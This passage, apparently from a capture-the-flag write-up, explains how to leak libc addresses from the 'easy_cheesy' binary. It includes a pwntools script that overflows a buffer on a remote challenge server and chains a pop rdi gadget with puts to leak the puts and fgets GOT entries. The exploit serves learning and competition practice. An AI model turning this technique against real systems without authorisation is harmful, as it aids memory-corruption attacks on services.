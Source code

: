 Now we've leaked the address, we can see that the real location of puts ends 5a0 - because libc is always loaded at the start of a page, and pages are 4096 (0x1000) bytes, the base address always has 3 0's at the end, meaning no matter where it's loaded, the offset of puts in this version of libc will end 5a0 , allowing us to identify which libc version they're using

I used [libc.rip](http://libc.rip) to put the offset in and see what it came back with.

![Untitled%208.png](Untitled%208.png)

That's a lot of possible libc versions, so we can try and narrow it down further. We can use the same technique, except this time, we'll leak the address of fgets(), which has also been included in this binary.

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from

main = p64(context.symbols["main"])
pop_rdi = p64(0x401303) #An RDI gadget in the binary
putsGOT = p64(context.got["puts"]) #The real address of puts() in memory                                                            │
putsPLT = p64(context.plt["puts"]) #The PLT address of puts(). Jumping here will call puts() for us.
fgetsGOT = p64(context.got["fgets"])
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

stage_1 = junk + pop_rdi + putsGOT + putsPLT + main
cheese.sendline(stage_1) #Send it
cheese.recvline()
leaked_puts = u64(cheese.recvline()[:-1].ljust(8, b'\x00')) #Grab the output from puts(), chop off the nullbyte
log.info(f'Leaked puts: {hex(leaked_puts)}') #We now have a useable address

stage_2 = junk + pop_rdi + fgetsGOT + putsPLT + main #Same idea, but with fgetsGOT address instead of puts()
cheese.sendline(stage_2)
cheese.recvline()
leaked_fgets = u64(cheese.recvline()[:-1].ljust(8, b'\x00'))
log.info(f'Leaked fgets: {hex(leaked_fgets)}')

cheese.interactive() #So our connection doesn't die
```
